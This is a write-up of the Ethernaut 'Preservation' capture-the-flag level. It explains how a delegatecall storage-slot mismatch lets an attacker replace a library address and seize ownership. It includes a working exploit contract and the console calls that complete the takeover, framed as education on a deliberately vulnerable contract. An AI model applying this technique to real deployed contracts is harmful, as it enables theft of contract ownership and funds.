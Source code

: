 # 09. Preservation
<sup>Difficulty 8/10</sup>

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## Solution

We need to take the ownership of the contract. What could we do? 
Preservation contract uses `delegatecall` function to update the `storedTime` variable.

```solidity
contract Preservation {

  // public library contracts 
  address public timeZone1Library; 
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  [...]

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  [...]
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;                          

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

The problem between these two contracts resides in the variable declaration order:

**Preservation:**

| Slot | Variable         |
|:-----|:-----------------|
| 0    | timeZone1Library |
| 1    | timeZone2Library |
| 2    | owner            |
| 3    | storedTime       |

**LibraryContract:**

| Slot | Variable         |
|:-----|:-----------------|
| 0    | storedTime       |

Since we're updating the `LibraryContract.storedTime` variable which has slot 0, when we call `setFirstTime` or `setSecondTime` functions using `delegatecall` we'll update also `Preservation` slot 0 variable. Due to the misalignment of the variable declaration between the two contracts, we can update the `timeZone1Library` address.

We can create a contract that implement the `setTime(uint)` function to update the owner:

```solidity 
//SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Exploit {
  address public timeZone1Library; 
  address public timeZone2Library;
  address public owner;
  uint public timeToSet;
  function setTime(uint) public {
    owner = 'OUR ADDRESS'; 
  }
  function getTimeFromAddress(address _addr) public {
    timeToSet = uint(_addr);
  }
}
```

Now, we have to deploy the contract and via the `getTimeFromAddress` function we can retrieve the integer time we have to pass to `setTime` function of the `Preservation` contract.

```javascript
await contract.timeZone1Library()
// -> '0x7Dc17e761933D24F4917EF373F6433d4a62fe3c5'
await contract.setSecondTime('1326533402067413743625077578661884369641532361693')
await contract.timeZone1Library()
// -> '0xe85Bd0a4C4Ae7E2eF7641eeB7550047E4D210Bdd'  // which is our deployed contract
await contract.owner() == player
// -> false
await contract.setFirstTime(123) // We need to perform a call to the first library address which now points to an our controlled contract
await contract.owner() == player
// -> true
```

In depth information here: [Smart Contract Hacking Chapter 7 - Delegate Call Attack Vectors](https://console-cowboys.blogspot.com/2020/10/smart-contract-hacking-chapter-7.html)

## OZ Corner

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.